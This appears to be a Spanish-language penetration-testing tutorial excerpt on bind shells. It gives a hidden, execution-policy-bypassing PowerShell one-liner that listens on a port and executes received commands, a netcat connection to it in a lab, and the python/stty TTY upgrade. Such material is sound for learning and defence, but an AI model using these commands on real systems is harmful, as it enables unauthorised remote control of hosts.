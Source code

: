 Code: `powershell`
~~~
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
~~~
___

### CONEXION NETCAT

Una vez que ejecutamos el comando bind shell, deberíamos tener un shell esperándonos en el puerto especificado. Ahora podemos conectarnos a él.

Podemos usar netcat para conectarnos a ese puerto y obtener una conexión con el shell: 

Conexion netcat
~~~
 nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

Como podemos ver, se nos coloca directamente en una sesión de bash y podemos interactuar directamente con el sistema de destino. A diferencia de Reverse Shell, si interrumpimos nuestra conexión a un bind shell por cualquier motivo, podemos volver a conectarnos y obtener otra conexión de inmediato. Sin embargo, si el comando bind shell se detiene por algún motivo, o si se reinicia el host remoto, perderíamos nuestro acceso al host remoto y tendremos que explotarlo nuevamente para obtener acceso. 
___

### UPGRADING TTY

Una vez que nos conectemos a un shell a través de Netcat, notaremos que solo podemos escribir comandos o retroceder, pero no podemos mover el cursor de texto hacia la izquierda o hacia la derecha para editar nuestros comandos, ni podemos subir y bajar para acceder al historial de comandos. Para poder hacer eso, necesitaremos actualizar nuestro TTY. Esto se puede lograr mapeando nuestro TTY terminal con el TTY remoto. 

Hay múltiples métodos para hacer esto. Para nuestros propósitos, usaremos el método `python/stty`. En nuestro shell netcat, usaremos el siguiente comando para usar python para actualizar el tipo de nuestro shell a un TTY completo: 

~~~
$ python -c 'import pty; pty.spawn("/bin/bash")'
~~~

Después de ejecutar este comando, presionaremos `ctrl+z` para poner en segundo plano nuestro shell y volver a nuestro terminal local, e ingresar el siguiente comando stty: 

~~~
@remotehost$ ^Z

Juceco@htb[/htb]$ stty raw -echo
Juceco@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
~~~
